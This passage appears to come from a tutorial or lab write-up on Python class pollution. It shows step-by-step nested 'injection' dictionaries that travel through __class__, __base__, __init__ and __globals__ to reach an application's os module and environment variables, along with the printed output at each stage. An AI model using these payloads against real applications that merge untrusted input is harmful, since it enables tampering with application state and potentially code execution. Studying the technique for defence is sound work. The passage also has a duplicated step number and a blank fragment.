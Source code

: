 12. Now, let's change the environment variable. We need to access the `os` module and access the `os.environ['envName']` dictionary
13. In order to access to access modules, we need to reach `__modules__`. One way to reach them is through the methods in a class. Coincidentally, all classes has the `__init__` method.
```python
print(dir(abc.__class__.__base__.__init__))
```
Output:
```
['__annotations__', '__builtins__', '__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__get__', '__getattribute__', '__getstate__', '__globals__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__kwdefaults__', '__le__', '__lt__', '__module__', '__name__', '__ne__', '__new__', '__qualname__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__type_params__']
```
14. To access `__globals__`,
```python
injection = {
    'target2' : 'TEMPORARY POLLUTION #2',
    'target3' : 'TEMPORARY POLLUTION #3',
    '__class__' : {
        '__base__' : {
            'target1' : 'PERMANENT POLLUTION #1',
            '__qualname__' : 'CLASS NAME POLLUTION',
            '__init__' : {
                '__globals__' : {}
            }
        }
    }
} 
```
- Equivalent to ``
```python
print(abc.__class__.__base__.__init__.__globals__.keys())
```
- Note that `abc.__class__.__base__.__init__.__globals__` returns a dictionary
Output:
```
dict_keys(['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__path__', '__file__', '__cached__', '__builtins__', 'utils', 'os', 'glob', 'time', 'merge', 'save_feedback_to_disk', 'json', 'Person', 'User'])
```
- Since `User` class is defined in `__init__.py`, it has access to all modules inside `__init__.py` as shown by `json` 

14. To access the `os` module,
```python
injection = {
    'target2' : 'TEMPORARY POLLUTION #2',
    'target3' : 'TEMPORARY POLLUTION #3',
    '__class__' : {
        '__base__' : {
            'target1' : 'PERMANENT POLLUTION #1',
            '__qualname__' : 'CLASS NAME POLLUTION',
            '__init__' : {
                '__globals__' : {
                    'os' : {}
                }
            }
        }
    }
} 
```
- Equivalent to :
```python
print(abc.__class__.__base__.__init__.__globals__.get('os'))
```